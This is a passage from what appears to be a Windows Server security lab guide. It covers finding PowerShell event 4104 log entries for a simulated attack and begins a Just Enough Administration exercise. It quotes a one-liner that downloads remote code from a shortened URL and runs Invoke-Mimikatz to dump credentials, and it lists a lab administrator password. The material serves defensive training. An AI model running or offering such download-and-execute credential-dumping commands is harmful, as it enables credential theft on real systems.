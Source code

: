 10.   While the exploit succeeded, the corresponding actions were recorded in Windows PowerShell Operational log on LON-SVR1. To verify that, switch to LON-SVR1 where you are signed in as **ADATUM\\Administrator**. 
11.   While signed in to LON-SVR1 as **ADATUM\\Administrator**, right-click **Start** and click **Event Viewer**.
12.   In the **Event Viewer** window, expand the **Applications and Services\\Microsoft\\Windows\\PowerShell** folder and click the entry representing the Operational log.
13.   In the list of events in the Operational log, locate the most recent events with **ID 4104** and examine their content. 
14.   Locate the event that includes a reference to the script block `IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('LON-SVR1')`.

  > **Note:**  You could also mitigate the threat of a Pass-the-Hash attack in an Active Directory environment by implementing such features as Protected Groups, Authentication Policies, and Authentication Silos. For more information regarding these topics, refer to https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts and https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/authentication-policies-and-authentication-policy-silos


> **Result**: After completing this exercise, you will have attempted Windows PowerShell-based attacks against Windows 10 and Windows Server 2016 computers.


## Exercise 3: Implement Just Enough Administration

#### Task 1: Create a JEA role capabilities file

1.   Make sure that you are signed in to the LON-SVR1 Windows Server 2016 lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Administrator**
  -   PASSWORD: **Pa55w.rd**

2.   click **Start**, in the **Start** menu, right-click **Windows PowerShell ISE**, in the right-click menu, click **More** and then click **Run as administrator**.
3.   From the **Administrator: Windows PowerShell ISE** window, run the following (F:\\LabFiles\\Scripts\\Lab1Ex3Task1-01.ps1):

```
If (!(Test-Path –Path 'C:\Temp')) {
         New-Item –Path 'C:\Temp' –ItemType Directory –Force
}

New-PSRoleCapabilityFile –Path 'C:\Temp\AdatumPrintServerAdmin.psrc'
```

  > **Note:**  This will generate a sample JEA role capabilities file. With its default settings, all of the settings are commented out, resulting in no impact on the configuration of the endpoint with which the file gets associated. You will modify the role capabilities file to allow only restarting of the Print Spooler service. 

4.   Open the newly created capabilities file in the script pane of **Administrator: Windows PowerShell ISE** window.
5.   In line 10 of the role capabilities file, change:
